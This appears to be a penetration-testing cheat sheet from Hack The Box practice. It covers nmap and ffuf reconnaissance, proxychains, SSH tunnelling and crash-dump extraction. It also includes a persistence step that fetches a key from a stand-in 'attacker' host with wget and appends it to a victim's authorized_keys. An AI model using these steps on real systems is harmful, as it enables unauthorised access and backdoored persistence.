 # Initial Recon

## nmap

1. `nmap -sSV -Pn -p- -A <target>`
2. `nmap -sU -v <target> --min-rate=50`

## Sub-domain Enum

1. `ffuf -w SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/' -H 'HOST: FUZZ.website.com' -fs 2309`
3. `python3 sublist3r -d <domain>`

## Sub-Directoy Enum

1. `ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<SERVER_IP>:<PORT>/FUZZ" -recursion -recursion-depth 1 -e .php`
2. `gobuster dir -x php,txt -u 10.129.255.70 -w /usr/share/wordlists/dirb/common.txt`

## Parameter Fuzzing

1. `ffuf -w SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`
2. `ffuf -w SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://<SERVER_IP>:<PORT>/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`

## Page Type Fuzzing

1. `ffuf -w SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u "http://<SERVER_IP>:<PORT>/indexFUZZ"`


# Web Attacks

SQL Injection
- [sqlmap](https://github.com/jinhaochan/HTB/tree/master/Academy/SQLmap)
- [sql injection](https://github.com/jinhaochan/HTB/tree/master/Academy/SQL%20Injection)
- [file inclusion](https://github.com/jinhaochan/HTB/tree/master/Academy/File_Inclusion)


Proxy chains
---
```
edit /etc/proxychains4.conf 

examples:
http <ip> <port>
socks5 <victim service> <victim port> <user> <password>

$ proxychains ssh user@<ip>
```

Other web stuff
---
- Check SSL cert
- Check email domains
- Check 404 pages
- Try both `/tmp` and `/dev/shm` for file writes

# Local Attacks

## SSH port forwarding

append your pub key to `/home/user/.ssh/authorized_keys`

On your attacker machine:

`ssh -L <local port>:<victim service>:<victim port> <victim>@<ip>`

OR using dynamic forwarding for attacks

`ssh -D <local port> <victim>@<ip>`


## Adding your SSH to the victim

Append your public to the victim's ~/.ssh/authorized_keys

```
On attacker:
ssh-keygen

On victim:
wget http://attacker/id_rsa.pub
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

## Getting Crash Data

While program is running, kill it with

```
kill -BUS <pid>

Get the data from the crash log
---
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crashed
strings /tmp/crashed/CoreDump
```

